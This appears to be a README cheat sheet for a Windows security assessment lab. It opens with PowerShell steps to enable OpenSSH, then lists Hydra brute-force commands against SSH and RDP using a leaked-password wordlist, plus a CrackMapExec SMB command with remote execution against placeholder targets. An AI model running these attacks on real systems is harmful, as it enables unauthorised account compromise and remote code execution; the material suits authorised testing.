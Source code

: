 # Commands Used in Windows Security Assessment

## SSH Setup on Windows 10

1. **Install OpenSSH Server**:
    ```powershell
    Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
    ```

2. **Start SSH Service**:
    ```powershell
    Start-Service sshd
    ```

3. **Allow SSH Through Firewall**:
    ```powershell
    New-NetFirewallRule -Name "SSHD" -DisplayName "OpenSSH Server" -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
    ```

## Brute-Force Testing

### Hydra SSH Brute-Force Attack:
```bash
hydra -l username -P /path/to/rockyou.txt ssh://<TARGET_IP> -V -t 4



### Hydra RDP Brute-Force Attack:
hydra -l admin -P /path/to/rockyou.txt rdp://<TARGET_IP>

### SMB Testing with CrackMapExec:
bash
crackmapexec smb <TARGET_IP> -u username -p password --exec-method smbexec


### SSH Login Test
bash
ssh username@<TARGET_IP>
